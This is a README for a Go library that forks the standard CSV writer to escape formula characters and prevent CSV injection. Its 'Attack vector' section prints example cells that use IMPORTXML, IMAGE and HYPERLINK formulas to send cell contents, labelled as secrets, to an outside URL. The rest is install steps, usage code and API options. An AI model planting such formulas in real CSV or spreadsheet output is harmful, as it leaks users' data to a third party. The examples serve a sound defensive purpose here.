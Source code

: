 
# Safe CSV writer

[![tag](https://img.shields.io/github/tag/samber/go-safe-csv-writer.svg)](https://github.com/samber/go-safe-csv-writer/releases)
![Go Version](https://img.shields.io/badge/Go-%3E%3D%201.17-%23007d9c)
[![GoDoc](https://godoc.org/github.com/samber/go-safe-csv-writer?status.svg)](https://pkg.go.dev/github.com/samber/go-safe-csv-writer)
![Build Status](https://github.com/samber/go-safe-csv-writer/actions/workflows/test.yml/badge.svg)
[![Go report](https://goreportcard.com/badge/github.com/samber/go-safe-csv-writer)](https://goreportcard.com/report/github.com/samber/go-safe-csv-writer)
[![Coverage](https://img.shields.io/codecov/c/github/samber/go-safe-csv-writer)](https://codecov.io/gh/samber/go-safe-csv-writer)
[![Contributors](https://img.shields.io/github/contributors/samber/go-safe-csv-writer)](https://github.com/samber/go-safe-csv-writer/graphs/contributors)
[![License](https://img.shields.io/github/license/samber/go-safe-csv-writer)](./LICENSE)

A fork of `encoding/csv` package from Go stdlib, preventing CSV injection and data exfiltration, while maintaining compatibility with the original library.

## 🥷 Attack vector

### Simple formula

The following CSV:

```csv
col1,col2,col3
-21-21,=A1,42
```

Would be rendered in Excel like this:

```csv
col1,col2,col3
-42,col1,42
```

### Advanced formula

The following CSV might request external resource and leak data.

```csv
userId,secret
1,secret1
2,secret2
3,"=IMPORTXML(CONCAT(""http://samuel-berthe.fr?dump="", CONCATENATE(A1:B6)), ""//a"")"
4,=IMAGE("http://samuel-berthe.fr?dump=" & INDIRECT("B2"))
5,=HYPERLINK("http://samuel-berthe.fr?dump=" & INDIRECT("B2"), "a link")
```

### Protect

See [https://georgemauer.net/2017/10/07/csv-injection.html](https://georgemauer.net/2017/10/07/csv-injection.html).

and [https://owasp.org/www-community/attacks/CSV_Injection](https://owasp.org/www-community/attacks/CSV_Injection)

## 🚀 Install

```sh
go get github.com/samber/go-safe-csv-writer
```

This library is v0 and follows SemVer strictly.

Some breaking changes might be made to exported APIs before v1.0.0.

## 🤠 Getting started

[GoDoc: https://godoc.org/github.com/samber/go-safe-csv-writer](https://godoc.org/github.com/samber/go-safe-csv-writer)

```go
import csv "github.com/samber/go-safe-csv-writer"

func main() {
    var buff strings.Builder

    writer := csv.NewSafeWriter(
        &buff,
        &SafetyOpts{
            ForceDoubleQuotes: true,
            EscapeCharEqual:   true,
        },
    )
    writer.Write([]string{"userId", "secret", "comment"})
    writer.Write([]string{"-21+63", "=A1", "foo, bar"})
    writer.Flush()

    if err := writer.Error(); err != nil {
        panic(err)
    }

    output := buff.String()
    // "userId","secret","comment"
    // "-21+63"," =A1","foo, bar"
}
```

## 🍱 Reference

```go
// Prototype:
func NewSafeWriter(w io.Writer, opts SafetyOpts) *SafeWriter
```

```go
// Available options:

type SafetyOpts struct {
    ForceDoubleQuotes bool
    EscapeCharEqual   bool
    EscapeCharPlus    bool
    EscapeCharMinus   bool
    EscapeCharAt      bool
    EscapeCharTab     bool
    EscapeCharCR      bool
}
```

```go
// Presets:

var FullSafety = SafetyOpts{
	ForceDoubleQuotes: true,
	EscapeCharEqual:   true,
	EscapeCharPlus:    true,
	EscapeCharMinus:   true,
	EscapeCharAt:      true,
	EscapeCharTab:     true,
	EscapeCharCR:      true,
}

var EscapeAll = SafetyOpts{
	ForceDoubleQuotes: false,
	EscapeCharEqual:   true,
	EscapeCharPlus:    true,
	EscapeCharMinus:   true,
	EscapeCharAt:      true,
	EscapeCharTab:     true,
	EscapeCharCR:      true,
}
```

## 🤝 Contributing

- Ping me on Twitter [@samuelberthe](https://twitter.com/samuelberthe) (DMs, mentions, whatever :))
- Fork the [project](https://github.com/samber/go-safe-csv-writer)
- Fix [open issues](https://github.com/samber/go-safe-csv-writer/issues) or request new features

Don't hesitate ;)

```bash
# Install some dev dependencies
make tools

# Run tests
make test
# or
make watch-test
```

## 👤 Contributors

![Contributors](https://contrib.rocks/image?repo=samber/go-safe-csv-writer)

## 💫 Show your support

Give a ⭐️ if this project helped you!

[![GitHub Sponsors](https://img.shields.io/github/sponsors/samber?style=for-the-badge)](https://github.com/sponsors/samber)

## 📝 License

Copyright © 2024 [Samuel Berthe](https://github.com/samber).

This project is [MIT](./LICENSE) licensed.
